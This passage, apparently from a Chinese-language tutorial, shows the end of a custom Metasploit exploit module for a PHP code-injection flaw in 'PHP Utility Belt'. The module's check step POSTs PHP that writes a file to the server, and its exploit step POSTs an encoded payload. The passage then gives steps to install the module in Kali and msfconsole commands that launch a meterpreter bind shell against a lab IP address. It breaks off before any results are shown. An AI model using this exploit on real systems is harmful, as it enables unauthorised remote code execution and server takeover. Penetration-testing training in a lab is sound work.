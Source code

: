 ```
      ], self.class) 
    end
    
    def check
      send_request_cgi(
          'method'        => 'POST',
          'uri'           => normalize_uri(target_uri.path),
          'vars_post'     => {
              'code'      => "fwrite(fopen('info.php','w'), '<?php echo phpinfo();?>');"
            }
      )   
    resp = send_request_raw({'uri'  => normalize_uri(datastore['CHECKURI']), 'method' => 'GET'})
    if resp.body = ~/phpinfo()/
      return Exploit::CheckCode::Vulnerable
    else
      return Exploit::CheckCode::Safe
    end
   end
   
   def exploit
    send_request_cgi(
      'method'        => 'POST',
      'uri'           => normalize_uri(target_uri.path),
      'vars_post'     => {
        'code'        => payload.encoded
      }
    )
   end
   
end
```

## 上传攻击脚本php_utility_belt_attack_by_binghe.rb

将攻击脚本php_utility_belt_attack_by_binghe.rb上传的Kali的/usr/share/metasploit-framework/modules/exploits/web/php目录下。

## 运行攻击脚本php_utility_belt_attack_by_binghe.rb

```
msfconsole
use exploit/web/php/php_utility_belt_attack_by_binghe 
set payload php/meterpreter/bind_tcp
set RHOST 192.168.109.141
show options
exploit
sysinfo
```

具体操作效果如下：

